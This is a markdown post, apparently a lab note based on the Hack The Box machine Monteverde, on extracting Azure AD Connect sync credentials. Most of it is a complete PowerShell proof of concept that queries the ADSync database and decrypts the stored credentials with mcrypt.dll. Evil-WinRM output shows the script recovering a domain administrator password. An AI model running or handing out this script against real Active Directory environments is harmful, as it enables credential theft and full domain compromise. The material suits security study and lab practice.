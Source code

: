 ```yaml
---
layout: post
title: Extracting creds from AD Connect
description: Extracting creds from AD Connect
summary: Extracting creds from AD Connect
tags: [privesc,windows,azure]
minute: 1
---
```

## Overview
Attacker can extract admin credentials from ADSync databases that is used for syncing credential hashes from onpremis AD to Azure AD.

## Enviroment Setup and Requirements
* AD sync must be running on victim machine using "Password Hash Synchronisation (PHS)"
* Low privileged user must have permission on `ADSync` DB
* Attacker must have gained access to that low privileged account via winrm

## Steps
* Login to victim via winrm
* Check if AD Sync is running

```powershell
Get-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\ADSync
```

* Verify access to ADSync DB

```powershell
*Evil-WinRM* PS C:\Users\mhope\Documents> sqlcmd /S localhost /d ADSync /q "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
keyset_id   instance_id                          entropy
----------- ------------------------------------ ------------------------------------
          1 1852B527-DD4F-4ECF-B541-EFCCBFF29E31 194EC2FC-F186-46CF-B44D-071EB61F49CD

(1 rows affected)
*Evil-WinRM* PS C:\Users\mhope\Documents> 
```

* Run this powershell script. This will get the encrypted string from `mms_management_agent` table and decrypt it using `mcrypt.dll`.

```powershell
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$sqlserver = "localhost"
$dbname = "ADSync"

$client = New-Object System.Data.SqlClient.SqlConnection
$client.ConnectionString = "Server = $sqlserver; Database = $dbname; Integrated Security = True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

* Run the script

```powershell
*Evil-WinRM* PS C:\Users\mhope\Documents> .\decrypt.ps1
AD Connect Sync Credential Extract POC (@_xpn_)

Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
*Evil-WinRM* PS C:\Users\mhope\Documents>
```

## Gotchas
Older versions of AD Connect uses registry but newer ones uses DPAPI. Take this into consideration when using tools to extract the credentials.

To see the version, use this command.

```powershell
Get-ItemProperty -Path "C:\Program Files\Microsoft Azure AD Sync\Bin\miiserver.exe" | Format-list -Property * -Force
```

## References
* HTB Mo teverde
* [Azure AD Connect for Red Teamers - XPN InfoSec Blog](https://blog.xpnsec.com/azuread-connect-for-redteam/)

